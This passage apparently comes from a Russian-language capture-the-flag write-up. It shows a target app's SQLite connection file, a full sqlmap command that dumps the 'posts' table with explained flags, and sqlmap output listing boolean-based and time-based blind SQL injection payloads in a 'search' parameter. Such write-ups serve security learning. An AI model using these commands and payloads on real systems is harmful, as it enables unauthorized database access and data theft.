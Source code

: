 Затем запустите sqlmap по этому запросу:

Изменить: это база данных SQLite, вы можете увидеть ее в файле **Connect.php** . (Спасибо « [Жолт Хорват](https://medium.com/@hzsolt12) »)

```php
<?php
$dbFile = '/opt/app/db/chunked.db';

try
{
    $pdo = new PDO("sqlite:$dbFile"); // SQLite DB
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
}
catch(PDOException $e)
{
    die("Failed to connect to database: " . $e->getMessage());
}
?>
```

Запускаем sqlmap:

```bash
sqlmap -r request --risk=3 --level=5 --dbms=sqlite --ignore-code=500 --dump -T posts --threads 10
```

- sqlmap: название инструмента для проведения атак на базы данных через SQL-инъекции.
- -r request: указывает на файл с запросом, который будет использоваться для атаки.
- --risk=3: уровень риска, который определяет, насколько далеко инструмент будет идти в попытках обнаружить уязвимости (от 1 до 3).
- --level=5: уровень агрессивности, который определяет количество тестовых запросов, отправляемых на сервер для обнаружения уязвимостей (от 1 до 5).
- --dbms=sqlite: указывает на то, что целевая база данных является SQLite.
- --ignore-code=500: игнорирует ошибки сервера с кодом 500 (внутренняя ошибка сервера).
- --dump: указывает на необходимость извлечения данных из базы данных.
- -T posts: указывает на таблицу "posts", из которой необходимо извлечь данные.
- --threads 10: количество потоков, которые будут использоваться для выполнения атаки.

sqlmap обнаружит, что это слепая SQL-инъекция:

```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=1' AND 1602=1602-- tNrW

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: search=1' AND 9040=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- xaaq
---
web application technology: Apache
back-end DBMS: SQLite
```
